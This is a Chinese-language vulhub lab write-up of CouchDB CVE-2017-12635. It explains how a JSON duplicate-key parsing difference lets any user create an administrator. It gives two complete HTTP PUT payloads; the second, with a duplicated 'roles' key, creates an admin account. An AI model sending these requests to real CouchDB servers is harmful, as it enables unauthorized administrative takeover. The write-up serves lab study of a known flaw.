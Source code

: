 # Couchdb 垂直权限绕过漏洞

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->用户创建成功--->成功登录

### 0x01漏洞介绍

​			Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

​			在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

​			在定义一对键值对时，Eralang解析器将存储两个值；javascript只存储第二个值。但jiffy实现时，getter函数只返回第一个值。

##### 影响版本

```
<1.7.0 && <2.1.1
```

### 0x02漏洞复现

##### **PAYLOAD1:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

##### **PAYLOAD2:

	PUT /_users/org.couchdb.user:vulhub HTTP/1.1
	Host: your-ip:5984
	Accept: */*
	Accept-Language: en
	User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
	Connection: close
	Content-Type: application/json
	Content-Length: 108
	
	{
	  "type": "user",
	  "name": "vulhub",
	  "roles": ["_admin"],
	  "roles": [],
	  "password": "vulhub"
	}
​			**默认页面**

![Couchdb_垂直权限绕过漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Couchdb_垂直权限绕过漏洞_1.jpg)

​			**首先发送payload1，可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色**



​			**发送包含两个roles的数据包，即可绕过限制，成功创建管理员，账户密码均为`vulhub`**

![Couchdb_垂直权限绕过漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Couchdb_垂直权限绕过漏洞_2.jpg)

​			**再次访问`http://your-ip:5984/_utils/`，输入账户密码`vulhub`，可以成功登录**

![Couchdb_垂直权限绕过漏洞_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Couchdb_垂直权限绕过漏洞_3.jpg)

### 0x03参考资料

https://www.cnblogs.com/foe0/p/11375757.html



